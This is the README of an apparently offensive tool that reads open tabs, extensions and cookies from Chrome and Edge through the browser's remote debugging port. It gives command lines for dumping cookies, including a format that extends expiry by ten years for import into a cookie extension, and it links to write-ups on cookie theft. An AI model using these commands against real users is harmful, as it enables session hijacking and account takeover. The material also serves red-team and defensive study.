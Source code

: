 # WhiteChocolateMacademiaNut

![WhiteChocolateMacademiaNut](./example.png)

## Description
Interacts with [Chromium's debug port](https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html) to view open tabs, installed extensions, and cookies. Can be used against Google Chrome and Microsoft Edge.

## Usage
- Dump the user's open tabs and installed extensions
    - ```./WhiteChocolateMacademiaNut -p 4200 -d pages```
- Dump the user's cookies in human-readable format
    - ```./WhiteChocolateMacademiaNut --port 1337 --dump cookies --format human```
- Dump the user's cookies in raw JSON as returned by Chromium
    - ```./WhiteChocolateMacademiaNut --port 1234 --dump cookies --format raw```
- Dump the user's cookies in JSON with the name, value, domain, path, and modified expirationDate attribute to 10 years in the future (compatible with [Cookiebro extension](https://nodetics.com/cookiebro/))
    - ```./WhiteChocolateMacademiaNut -p 666 -d cookies -f modified```

## References
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password
- https://github.com/defaultnamehere/cookie_crimes
